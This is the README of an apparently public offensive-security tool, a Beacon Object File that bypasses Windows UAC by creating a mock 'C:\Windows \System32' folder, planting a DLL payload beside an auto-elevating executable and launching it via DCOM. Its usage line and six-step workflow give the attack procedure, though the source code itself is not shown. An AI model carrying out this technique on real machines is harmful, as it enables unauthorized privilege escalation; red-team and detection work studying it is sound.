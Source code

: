 # BOF - Trusted Path UAC Bypass
Beacon object file implementation for trusted path UAC bypass. The target executable will be called without involving "cmd.exe" by using DCOM object.

Technical details:

https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows

**Usage**

`Example: bof-trustedpath-uacbypass ComputerDefaults.exe /root/edputil.dll`

**Compile**

`make`

**Execution**
```
beacon> help bof-trustedpath-uacbypass
====================Trusted Path UAC Bypass BOF Workflow=======================
Step 1: Upload the DLL payload to "C:\Windows\Tasks"
Step 2: Create a new folder called "C:\Windows \System32"
Step 3: Copy desired executable to "C:\Windows \System32"
Step 4: Copy the DLL payload to "C:\Windows \System32"
Step 5: Use DCOM to execute "C:\Windows \System32\<desired executable>"
Step 6: Delete the DLL payload on "C:\Windows\Tasks"
================================================================================

Example: bof-trustedpath-uacbypass ComputerDefaults.exe /root/edputil.dll
```

![HowTo](https://github.com/netero1010/TrustedPath-UACBypass-BOF/raw/main/execution.png)

**Credit**

 @Wietze for excellent research by
https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows

@Yas_o_h for the awesome DCOM BOF implementation
